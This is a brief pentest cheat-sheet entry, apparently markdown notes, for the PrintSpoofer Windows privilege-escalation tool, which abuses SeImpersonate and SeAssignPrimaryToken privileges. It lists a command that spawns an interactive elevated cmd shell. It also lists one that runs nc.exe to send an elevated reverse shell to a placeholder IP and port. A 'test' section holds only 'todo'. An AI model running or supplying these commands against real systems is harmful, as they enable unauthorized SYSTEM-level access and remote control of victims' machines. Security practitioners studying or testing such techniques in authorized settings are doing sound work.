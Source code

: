 # printspoofer

% SeAssignPrimaryToken, SeImpersonate, token
#plateform/windows #target/local #cat/PRIVESC/TOKEN


## test
https://github.com/itm4n/PrintSpoofer
```cmd
todo
```

## local priv
https://github.com/itm4n/PrintSpoofer
```cmd
.\PrintSpoofer.exe -i -c cmd
```


## elevated reverse shell
https://github.com/itm4n/PrintSpoofer
```cmd
.\PrintSpoofer.exe -c "<nc_exe_path> <ip> port -e cmd"
```


